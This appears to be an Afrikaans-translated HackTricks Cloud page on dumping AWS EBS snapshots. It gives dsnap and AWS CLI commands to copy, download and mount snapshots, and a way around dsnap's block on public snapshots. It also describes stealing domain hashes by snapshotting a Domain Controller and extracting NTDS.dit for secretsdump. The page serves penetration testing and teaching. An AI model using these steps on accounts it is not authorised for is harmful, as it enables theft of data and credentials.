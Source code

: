 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Kontroleer 'n snapshot plaaslik
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Let wel** dat `dsnap` jou nie sal toelaat om openbare snappings af te laai nie. Om dit te omseil, kan jy 'n kopie van die snapshot in jou persoonlike rekening maak, en dit aflaai:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Vir meer inligting oor hierdie tegniek, kyk na die oorspronklike navorsing in [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Jy kan dit met Pacu doen deur die module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) te gebruik.

## Kontroleer 'n snapshot in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Monteer dit in 'n EC2 VM onder jou beheer** (dit moet in dieselfde streek wees as die kopie van die rugsteun):

Stap 1: 'n Nuwe volume van jou verkiesde grootte en tipe moet geskep word deur na EC2 –> Volumes te gaan.

Om hierdie aksie uit te voer, volg hierdie opdragte:

* Skep 'n EBS-volume om aan die EC2-instantie te koppel.
* Verseker dat die EBS-volume en die instantie in dieselfde sone is.

Stap 2: Die "koppel volume" opsie moet gekies word deur regs te klik op die geskepte volume.

Stap 3: Die instantie uit die instantie teksvak moet gekies word.

Om hierdie aksie uit te voer, gebruik die volgende opdrag:

* Koppel die EBS-volume.

Stap 4: Teken in op die EC2-instantie en lys die beskikbare skywe met die opdrag `lsblk`.

Stap 5: Kontroleer of die volume enige data het met die opdrag `sudo file -s /dev/xvdf`.

As die uitvoer van die bogenoemde opdrag "/dev/xvdf: data" toon, beteken dit dat die volume leeg is.

Stap 6: Formateer die volume na die ext4 lêerstelsel met die opdrag `sudo mkfs -t ext4 /dev/xvdf`. Alternatiewelik kan jy ook die xfs-formaat gebruik met die opdrag `sudo mkfs -t xfs /dev/xvdf`. Neem asseblief kennis dat jy ofwel ext4 of xfs moet gebruik.

Stap 7: Skep 'n gids van jou keuse om die nuwe ext4-volume te monteer. Byvoorbeeld, jy kan die naam "newvolume" gebruik.

Om hierdie aksie uit te voer, gebruik die opdrag `sudo mkdir /newvolume`.

Stap 8: Monteer die volume na die "newvolume" gids met die opdrag `sudo mount /dev/xvdf /newvolume/`.

Stap 9: Verander gids na die "newvolume" gids en kontroleer die skyfspasie om die volume-montage te valideer.

Om hierdie aksie uit te voer, gebruik die volgende opdragte:

* Verander gids na `/newvolume`.
* Kontroleer die skyfspasie met die opdrag `df -h .`. Die uitvoer van hierdie opdrag moet die vrye spasie in die "newvolume" gids toon.

Jy kan dit met Pacu doen deur die module `ebs__explore_snapshots` te gebruik.

## Kontroleer 'n snapshot in AWS (met cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Skadu Kopie

Enige AWS-gebruiker wat die **`EC2:CreateSnapshot`** toestemming het, kan die hashes van alle domein gebruikers steel deur 'n **snapshot van die Domein Beheerder** te skep, dit aan 'n instansie wat hulle beheer te koppel en die **NTDS.dit en SYSTEM** register hives lêer te **eksporteer** vir gebruik met Impacket se secretsdump projek.

Jy kan hierdie hulpmiddel gebruik om die aanval te outomatiseer: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) of jy kan een van die vorige tegnieke gebruik nadat jy 'n snapshot geskep het.

## Verwysings

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
